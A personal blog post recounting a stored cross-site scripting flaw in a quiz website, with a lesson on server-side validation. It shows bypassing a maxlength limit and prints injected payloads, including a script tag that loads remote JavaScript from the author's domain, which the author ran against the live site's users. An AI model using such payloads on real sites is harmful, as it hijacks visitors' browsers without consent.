 ```yaml
---
title: "The \"Quiz Your Friends\" XSS Exploit"
layout: post
---
```


Note: I have alerted the administrators of this site multiple times about this vulnerability.
One email was sent many years ago, which is more than enough time for [responsible disclosure](https://en.wikipedia.org/wiki/Responsible_disclosure).

## Background

In early 2014, when my "programming" skills consisted of editing web pages with inspect element, I was sent a link from an old friend in a town about 3 hours away.
This was a link to a quiz about them.
I had to answer as many questions right as I could about them and I got a score at the end based on my answers.
It seemed fun enough, so I went for it.
In the following weeks this quiz website became quite a trend amongst my friend group as we all started making quizes to see how well we all knew eachother.

A few weeks into this trend, I was staying at a friends' place and told him about this site,
so he goes and creates his own quiz and sends it to all his friends, group chats, Google Plus groups, et cetera.

## Hackerman


While filling in my friend's survey I thought it would be
funny for them to know it is me without anyone else knowing.
We were young and had `Inspect Element`ed a few things together,
so it was a safe bet that an HTML joke would let them know.

I decided to write my name like so: `<b>Steve</b>`.
Steve is in reference to the [main character](https://minecraft.gamepedia.com/Player) in the video game Minecraft.

<figure>
  <img src="/assets/img/qyf-xss/2-bold.png">
  <figcaption>
    <p>Me typing in my name as <span class="mono">&lt;b&gt;Steve&lt;/b&gt;</span>.</p>
  </figcaption>
</figure>

Now in theory this should have shown in in the leaderboard as: "&lt;b&gt;Steve&lt;/b&gt;"
However, to my horror and excitement, I saw this in the leaderboard:

<figure>
  <img src="/assets/img/qyf-xss/3-steve-board.png">
  <figcaption>
    <p><span class="mono">&lt;b&gt;Steve&lt;/b&gt;</span> displaying in the leaderboard as bold text: <b>Steve</b></p>
  </figcaption>
</figure>

The text "Steve" showed up **in bold** on the leaderboard.
This told me all I needed to know.
How did this happen? You might wonder.

### Server-Side Validation

Here is a great demonstration why you should do most of your validation on the server side.
As a user, I can edit any of the HTML, CSS, or Javascript your server serves to me.

Quiz your friends uses the `maxlength=20` HTML attribute on the name input field.
Imagine trying to fit in a script tag doing anything useful with 20 characters! Don't forget that includes the `<script>` tag.
That would leave 13 characters for Javascript.
Although I'm sure a genius would be able to [code golf](https://code.golf/) that, I know I couldn't.

Now obviously I can edit any HTML that a server has sent to me.
If I open up my inspect element window, I can go ahead and change that `maxlength` attribute to anything I want.
Let's change it to 100!

<figure>
  <img src="/assets/img/qyf-xss/5-maxlength.png" alt='An image of the Quiz Your Friends name input field with inspect element. THe code reads: <font class="style6"><input class="inputbutton" name="takername" type="text" id="takername" maxlength="20" width="425" placeholder="Your First Name" style="text-align: center; text-decoration:inherit; font-size:38px;" tabindex="-1"></font>'>
  <figcaption>
    Manually changing the maxlength attribute. 
  </figcaption>
</figure>

In theory, there is a way that a site can stop people from just putting in their name of any length: server-side validation.
The server *could* check to see if the input is too long and reject it if it is.
The Quiz My Friends server has *no such checks in place*.
Therefore, I can send an almost arbitrary load to them.
Being able to send something potentially very large (more than a few megabytes) is a vulnerability of its own.
Imagine being able to send entire executable programs as your "name" in one of these quizzes?


## Javascript

So I went on my merry way thinking about ways to use malicious javascript.
Then, I thought that might be mean, so I decided to warn users instead.
I filled in the name with a script tag and a call to `alert()` to warn the user about this site.
I edited the max-length attribute to allow me to type a long string like this:

```
<script>alert("Don't use this site. It is not secure!");</script>
```

Sure enough, I got a text from my friend saying: "Tait! I know this is you, why would you do that!"
A bit salty, but who wouldn't be.

## Cross-Site Scripting (XSS)

As my final act, I decided to use a cross-site script that I could edit and have it load with new changes at any time.

I set this as my name:

```
<script src="https://tait.tech/assets/js/hacked.js"></script>
```

This script pops up a warning, telling the user that the site is insecure and it is now redirecting to an article about the attack.
This script redirects to an [older post I made](https://tait.tech/2020/04/25/xss/) about how XSS works.

## Conclusion

Watch out for sketchy websites that may be vulnerable to malicious or insecure sites which are ripe for abuse.
Always check that you are using an encrypted connection, HTTPS.
And if you see any messages warning you that a site is not secure and redirecting you to some random site...
Take their info with a grain of salt.

Happy Hacking, literally :)
